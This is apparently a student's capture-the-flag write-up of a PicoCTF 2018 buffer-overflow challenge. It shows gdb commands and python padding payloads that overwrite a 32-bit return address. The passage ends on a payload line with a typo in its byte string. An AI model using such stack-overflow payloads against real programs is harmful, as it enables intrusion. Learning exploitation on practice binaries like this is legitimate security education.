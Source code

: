 ### Buffer Overflow 1

#### Question Description:

*Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://github.com/Eunseo-Lee/Computer-Journey/blob/master/CTF%20Writeup/2018/PicoCTF%202018/Binary%20Exploitation/Buffer%20Overflow%201/Attachments/vuln)? You can find it in /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613 on the shell server. [Source.](https://github.com/Eunseo-Lee/Computer-Journey/blob/master/CTF%20Writeup/2018/PicoCTF%202018/Binary%20Exploitation/Buffer%20Overflow%201/Attachments/vuln.c)*

#### Hints:
*1. This time you're actually going to have to control that return address!*

*2. Make sure you consider Big Endian vs Little Endian.*

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━▲━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

It looks like we have to overwrite the return address this time, unlike the last problem (buffer overflow 0). 


`
vuln: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Li
nux 2.6.32, BuildID[sha1]=5235698279b65da569a42e74772f0d7f3057f8b8, not stripped
`

The program file is a 32-bit ELF that asks for user input. 
![screenshot1](https://github.com/Eunseo-Lee/Computer-Journey/blob/master/CTF%20Writeup/2018/PicoCTF%202018/Binary%20Exploitation/Buffer%20Overflow%201/Screenshots/test.PNG)

After our input, the program returns an interesting text: 
`Okay, time to return... Fingers Crossed... Jumping to 0x80486b3`

Im guessing that we need to overflow the buffer when the program asks us for our input, then change the return address of the buffer somewhere else... But in order to be sure, lets take a look at the [source code](https://github.com/Eunseo-Lee/Computer-Journey/blob/master/CTF%20Writeup/2018/PicoCTF%202018/Binary%20Exploitation/Buffer%20Overflow%201/Attachments/vuln.c). 

Long in short, the program has two functions called vuln() and win() that we need to utilize in order to get the flag. 

After the main() function prints out the message for user input, it calls the vuln() function. The vuln() function has a buffer that stores the user input with the function get(). The win() function simply prints out the flag, but we can't access it directly. 

So, how do we access the win() function with only vuln()??

The vuln() has a buffer overflow vulnerability in which allows us to overflow the buffer that contains the user input. 

```
void vuln(){                                                                                                               
  char buf[BUFSIZE];                                                                                                       
  gets(buf);                                                                                                               
                                                                                                                           
  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());                            
}
```

The gets() function is a function that is used to scan a line of text from stdin (standard input), and store it in the variable. The function *only* stops when it comes across a newline character. That means we can continue to feed the program our input until the buffer overflows, as long as our input doesn't contain a newline character! 

In order to jump to the win() function, we need to know the address of win(), and the buffer length to overwrite the return address. 

Lets run gdb (GNU Debugger) and find out all the information we need for overflow. 

```
GNU commands:
gdb -q ./vuln
b(reak) *main
r(un)
i(nfo) addr(ess) vuln
p(rint) vuln
```

I set the breakpoint for function main() and ran the program so I could find out the address for vuln(). The last two commands are two different ways to find out the address of a symbol or expression. The brackets are added for readability, and it does not matter if you enter the full command or the shortened version in gdb. We can also find out the address of vuln() with `objdump`, but we will stick to gdb. 

```
Symbol "vuln" is at 0x804862f in a file compiled without debugging.
$1 = {<text variable, no debug info>} 0x804862f <vuln>
```

It looks like vuln() is located in 0x804862f. Now let's find out the buffer length so we can overwrite the return address. 

At 48 bytes (0x30), the return address of the buffer is completely over written. We can test this out with several python inputs...

```
python -c 'print "A"*48' | ./vuln    
Please enter your string:                                                                                                  
Okay, time to return... Fingers Crossed... Jumping to 0x41414141                                                           

python -c 'print "A"*47' | ./vuln    
Please enter your string:                                                                                                  
Okay, time to return... Fingers Crossed... Jumping to 0x414141

python -c 'print "A"*46' | ./vuln    
Please enter your string:                                                                                                  
Okay, time to return... Fingers Crossed... Jumping to 0x8004141               
```

If we got everything right, then hopefully after we overflow the buffer with 44 bytes and overwrite the return address with the extra 4 bytes (48 in total), we will hopefully jump to that address, which in this case, the vuln() function. 


```
Okay, time to return... Fingers Crossed... Jumping to 0x804862f                                                            
Okay, time to return... Fingers Crossed... Jumping to 0x0
Segmentation fault (core dumped)                                                                                           
```

There is a segmentation fault! I wonder what went wrong... I think after we enter the string, the null byte at the end interferes with jumping towards the return address. Let's run the commands once more in GDB and see what happens. 

`python -c 'print "A"*44 + "\x2f\x86\x 04\x08"' | ./vuln`

